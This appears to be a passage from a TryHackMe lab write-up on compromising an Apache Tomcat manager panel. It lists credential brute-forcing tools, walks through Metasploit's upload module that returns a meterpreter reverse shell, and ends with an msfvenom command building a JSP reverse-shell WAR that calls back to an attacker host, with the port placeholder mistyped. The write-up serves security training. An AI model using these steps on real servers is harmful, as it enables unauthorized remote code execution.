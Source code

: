 The last one worked !
You can also try bruteforce the panel with `Burpsuite`, `THCHydra`, `msf module: auxiliary/scanner/http/tomcat_mgr_login.


![[TryHackMe/Thompson/images/6.png]]

Above image depicts the management console of the `Apache Tomcat` product.

## Exploitation:

For the exploitation, I will show you different exploitation techniques especially in manual way:

- Automated
- Manual

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) provided a beautiful guideline to exploitation approaches towards in both automated and manual ways. In this instance, I was able to upload and run commands remotely known as `RCE`.

### Automated Exploitation:

`Metasploit Framework` has a module called `exploit/multi/http/tomcat_mgr_upload` which automatically uploads a file to target & get reverse shell to the attacker machine.

You should configure `RHOST`, `RPORT`, `LHOST` and `LPORT`. Furthermore, if `Apache` requires credentials, do not forget to give them on settings in `module`.


![[TryHackMe/Thompson/images/7.png]]

![[TryHackMe/Thompson/images/8.png]]

Exploit firstly creating a staged payload then `upload` it through the page. After that by using `multi/handler`, it was sending `staged payload`. If it successes it will `undeploy` and `meterpreter` is received from `msfconsole`.

I deliberately failed at once in order to show you why we are using `kiwi` module in only `Windows` platforms.

![[TryHackMe/Thompson/images/9.png]]

As you can see, it was only **COMPATIBLE** with `windows x86 or x64` platforms.

After that part you can modify the bash script to elevate your privileges or directly read `flag.txt` whether it occured or not.


![[TryHackMe/Thompson/images/10.png]]

### Manual Exploitation (msfvenom):

Creating `msfvenom` payload is also a method to exploit the target:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`
